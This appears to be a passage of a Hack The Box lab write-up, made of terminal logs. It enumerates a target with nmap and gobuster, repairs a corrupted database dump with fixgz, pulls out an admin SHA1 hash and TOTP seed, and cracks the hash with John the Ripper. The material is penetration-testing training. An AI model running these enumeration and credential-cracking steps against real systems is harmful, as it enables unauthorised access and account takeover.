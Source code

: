 ## Nmap scan
```bash
nmap -sC -sV -A -T4 10.129.186.91 -oN nmap.txt 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-06 20:18 IST
Nmap scan report for 10.129.186.91
Host is up (0.17s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:bb:a0:a1:20:b7:82:4d:d2:9f:35:52:f4:2e:6c:90 (RSA)
|   256 ca:ad:63:8f:30:ee:66:b1:37:9d:c5:eb:4d:44:d9:2b (ECDSA)
|_  256 2d:43:bc:4e:b3:33:c9:82:4e:de:b6:5e:10:ca:a7:c5 (ED25519)
2222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:a4:5c:e3:a9:05:54:b1:1c:ae:1b:b7:61:ac:76:d6 (RSA)
|   256 c9:58:53:93:b3:90:9e:a0:08:aa:48:be:5e:c4:0a:94 (ECDSA)
|_  256 c7:07:2b:07:43:4f:ab:c8:da:57:7f:ea:b5:50:21:bd (ED25519)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-robots.txt: 2 disallowed entries 
|_/vpn/ /.ftp_uploads/
|_http-server-header: Apache/2.4.38 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (92%), Linux 5.0 (92%), Linux 5.0 - 5.4 (91%), Linux 2.6.32 (91%), Linux 5.0 - 5.3 (90%), Crestron XPanel control system (90%), Linux 5.3 - 5.4 (90%), Linux 5.4 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   199.14 ms 10.10.14.1
2   199.22 ms 10.129.186.91

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.75 seconds

```

gobuster dir -u http://10.129.186.91:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.186.91:8080/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/12/06 20:29:46 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 0]
/robots.txt           (Status: 200) [Size: 55]


# git clone https://github.com/yonjar/fixgz.git
Cloning into 'fixgz'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 10 (delta 1), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (10/10), 9.19 KiB | 4.60 MiB/s, done.
Resolving deltas: 100% (1/1), done.
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www]
└─# cd fixgz 
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# ls -la               
total 44
drwxr-xr-x 3 root root  4096 Dec  6 20:34 .
drwxr-xr-x 3 root root  4096 Dec  6 20:34 ..
-rw-r--r-- 1 root root  1394 Dec  6 20:34 fixgz.cpp
-rw-r--r-- 1 root root 22763 Dec  6 20:34 fixgz.exe
drwxr-xr-x 8 root root  4096 Dec  6 20:34 .git
-rw-r--r-- 1 root root   135 Dec  6 20:34 README.md
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# g++ fixgz.cpp -o fixgz
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# ls -la
total 60
drwxr-xr-x 3 root root  4096 Dec  6 20:34 .
drwxr-xr-x 3 root root  4096 Dec  6 20:34 ..
-rwxr-xr-x 1 root root 16336 Dec  6 20:34 fixgz
-rw-r--r-- 1 root root  1394 Dec  6 20:34 fixgz.cpp
-rw-r--r-- 1 root root 22763 Dec  6 20:34 fixgz.exe
drwxr-xr-x 8 root root  4096 Dec  6 20:34 .git
-rw-r--r-- 1 root root   135 Dec  6 20:34 README.md
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# ./fixgz db.sql.gz db.gz                                                                                                  
fixgz: cannot open db.sql.gz
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# ./fixgz db.sql.gz db.gz                                                                                                                                                                                                            1 ⨯
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# ls -la
total 68
drwxr-xr-x 3 root root  4096 Dec  6 20:37 .
drwxr-xr-x 3 root root  4096 Dec  6 20:37 ..
-rw-r--r-- 1 root root   258 Dec  6 20:37 db.gz
-rw-r--r-- 1 root root   262 Dec  6 20:36 db.sql.gz
-rwxr-xr-x 1 root root 16336 Dec  6 20:34 fixgz
-rw-r--r-- 1 root root  1394 Dec  6 20:34 fixgz.cpp
-rw-r--r-- 1 root root 22763 Dec  6 20:34 fixgz.exe
drwxr-xr-x 8 root root  4096 Dec  6 20:34 .git
-rw-r--r-- 1 root root   135 Dec  6 20:34 README.md
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# cat db
cat: db: No such file or directory
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# gunzip db.gz                                                                                                                                                                                                                       1 ⨯
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# cat db      
CREATE DATABASE static;
USE static;
CREATE TABLE users ( id smallint unsigned not null auto_increment, username varchar(20) not null, password varchar(40) not null, totp varchar(16) not null, primary key (id) ); 
INSERT INTO users ( id, username, password, totp ) VALUES ( null, 'admin', 'd033e22ae348aeb5660fc2140aec35850c4da997', 'orxxi4c7orxwwzlo' );

                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# nvim hash
                                                                                                                                                                                                                                           
┌──(root💀sac)-[~/Downloads/hackthebox/www/fixgz]
└─# john hash
Created directory: /root/.john
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=16
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
admin            (?)     
1g 0:00:00:00 DONE 2/3 (2021-12-06 20:40) 100.0g/s 282400p/s 282400c/s 282400C/s Winnie..admin1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.

